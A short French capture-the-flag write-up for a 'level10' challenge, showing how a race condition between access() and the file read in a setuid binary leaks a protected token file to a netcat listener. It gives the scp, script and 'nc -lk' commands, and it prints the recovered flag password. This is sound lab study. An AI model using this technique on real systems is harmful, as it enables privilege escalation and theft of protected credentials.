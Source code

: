 On voit un fichier level09 à la racine du home, qui s'execute avec les permissions de `flag10`, ainsi qu'un autre fichier `token` appartenant à flag10 et ne pouvant être lu que par ce dernier.
`./level10` nous indique qu'un argument doit être passé, ainsi qu'un host qui recevra le contenu du fichier.

La technique du lien symbolique ne fonctionne plus, mais on voit que access est appelé. Si aucune autre vérification est faite avant la lecture du fichier, une race condition peut peut-être être faite.

On donne les droits a /home/user dans level10, on fait 2 script, un pour faire la race condition et l'autre pour lancer l'executable en boucle, puis on les envoie avec la commande:

`scp -P 4242 level10/resources/invert.bash level10@10.12.200.80:/home/user/level10`
`scp -P 4242 level10/resources/spam.bash level10@10.12.200.80:/home/user/level10`

Apres avoir recu les fichiers, on peut donc commencer a les lancer

`./invert.bash a token &`
`./spam.bash`

Puis dans une autre fenetre on fait:

`nc -lk 6969`

On attends un peu...
Et on obtient le mot de passe de flag10 "woupa2yuojeeaaed06riuj63c".
